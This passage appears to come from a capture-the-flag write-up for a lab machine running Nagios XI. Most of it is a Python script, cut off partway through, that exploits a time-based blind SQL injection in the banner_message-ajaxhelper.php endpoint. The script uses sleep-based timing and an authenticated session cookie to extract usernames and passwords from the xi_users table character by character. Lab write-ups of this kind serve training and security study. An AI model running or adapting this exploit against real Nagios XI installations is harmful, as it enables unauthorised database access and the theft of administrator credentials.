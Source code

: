 I wrote a small Python script to extract username and password of the users in the table "xi_users".

```python
import requests, string, time,urllib3
urllib3.disable_warnings()

alphabet = string.ascii_lowercase+string.digits+string.ascii_uppercase+string.digits+string.punctuation+string.whitespace
#alphabet = string.printable

host = "nagios.monitored.htb"
headers = {"Host": host}
cookies = {
    "nagiosxi": "v52nf23tcfdvs3qot8mvq1f9jb",
    }

def find_username():
    username_found = ""
    payload = ""
    found = True

    while found:
        print(f"[-] Current username: {username_found}")
        found = False
        for letter in alphabet:
            username_attempt = f"{username_found}{letter}"
            payload = f"3 OR IF (('{username_attempt}'=(SELECT SUBSTRING((SELECT username FROM xi_users LIMIT 1), 1, {len(username_attempt)}))), sleep(1),false)"            
            data = {
                "action": "acknowledge_banner_message",
                "id": payload,
            }
            start = time.time()
            _ = requests.post(
                f"https://{host}/nagiosxi/admin/banner_message-ajaxhelper.php",
                headers=headers,
                data=data,
                #proxies={"http": "http://127.0.0.1:8080"},
                cookies=cookies,
                verify=False
                )
            end = time.time()
            delay = end - start
            if delay < 1:
                continue
            else:
                print(f"[-] Anomaly request delay: {delay}")
                username_found = username_attempt
                print(f"[+] Found char: {letter}\n")
                found = True
                break

def find_password(username):
    admin_password = ""
    payload = ""
    found = True

    while found:
        print(f"[-] Current password: {admin_password}")
        found = False
        for letter in alphabet:
            password_attempt = f"{admin_password}{letter}"
```